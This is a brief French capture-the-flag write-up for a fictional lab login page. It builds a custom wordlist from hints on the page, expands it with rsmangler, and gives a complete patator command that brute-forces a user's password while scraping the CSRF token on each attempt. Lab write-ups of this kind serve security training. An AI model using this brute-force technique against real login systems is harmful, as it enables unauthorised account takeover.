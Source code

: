 ```yaml
---
title: Writes-up 5
next: "/write-ups/wu6"
prev: "/write-ups/wu4"
---
```


se rendre sur la page http://lannister.castral-roc.lannisport.south/high_login.php 

Construire une wordlist avec les indicdes présents sur la page : 

James
Lannister
Cersei
Love
I

Les ajouter a un fichier.

Créer un fichier sortie_wordlist.txt avec un multitude de variations possible de ces mots : 

rsmangler --file custom_wordlist.txt --output sortie_wordlist.txt
pour nous pour verifier : cat sortie_wordlist.txt | grep "<ILoveCersei>"

patator http_fuzz url="http://lannister.castral-roc.lannisport.south/high_login.php" method=POST body="username=james.lannis&password=FILE0&csrf_token=RESPONSE1" accept_cookie=1 0=sortie_wordlist.txt before_urls="http://lannister.castral-roc.lannisport.south/high_login.php" before_egrep='RESPONSE1:csrf_token" value="([a-f0-9]{32})"' resolve="lannister.castral-roc.lannisport.south:10.10.10.1"

finir
